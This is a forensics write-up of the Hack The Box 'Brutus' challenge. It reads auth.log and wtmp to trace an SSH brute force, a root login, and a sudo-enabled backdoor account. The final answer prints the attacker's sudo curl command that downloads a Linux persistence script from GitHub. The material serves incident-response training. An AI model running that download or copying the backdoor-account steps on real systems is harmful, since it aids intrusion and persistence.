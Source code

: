 ```yaml
---
title: Brutus 
layout: page
permalink: /writeups/HackTheBox/brutus
---
```


# Brutus Sherlock Write-Up

**Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?** 

From analyzing , we can see the brute force begins at 06:31:31 from an IP: 65.2.161.68

```bash
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from **65.2.161.68** port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: Invalid user admin from 65.2.161.68 port 46444
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: Invalid user admin from 65.2.161.68 port 46436
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460
```

**The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**

Analyzing auth.log once again looking for an accepted password confirmation we find one here: 

```bash
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

**Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

For this it tells us to use the wtmp artifact to gain this timestamp. The artifact itself is a binary and therefore not readable text. However, we can use the utmpdump tool to read it as such:

```bash
utmpdump wtmp
```

and we can see after analyzing the wtmp output that it the time stamp of the first login is:

```bash
2024-03-06 06:32:45
```

**SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

Going back to analysis of the auth.log file, we can look or the first session the user gained as root. We see the following:

```bash
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

So in this case, session 37 is the session number. 

**The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

This question is asking us to find the name of the account the user created as root. 

```bash
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2616]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session closed for user root
Mar  6 06:35:01 ip-172-31-35-28 CRON[2616]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

From this part of auth.log, we see that ‘cyberjunkie’ the new user in question. They were given sudo permissions likely to use as a back door to log in from. 

**What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

For this question we can simply google the MITRE ATT&CK knowledge base and find the persistence sub-technique for creating users. 

 

![2025-05-27 18_42_56-Create Account, Technique T1136 - Enterprise _ MITRE ATT&CK®.png](attachment:1e954f09-efaf-47c1-afc3-436a3c481036:2025-05-27_18_42_56-Create_Account_Technique_T1136_-_Enterprise___MITRE_ATTCK.png)

in this case, since the user created a local account it would be T1136.001

**What time did the attacker's first SSH session end according to auth.log?**

We can find such information towards the end of the auth.log file and we see it is at 06:37:24:

```bash
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

**The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

For this question, we are once again using the auth.log file. In most cases, commands are not logged in auth.log. However since the command was executed using sudo, authentication was required during the process and therefore being logged in auth.log. We can see the full command here: 

```bash
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

the command would be:

```bash
sudo /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

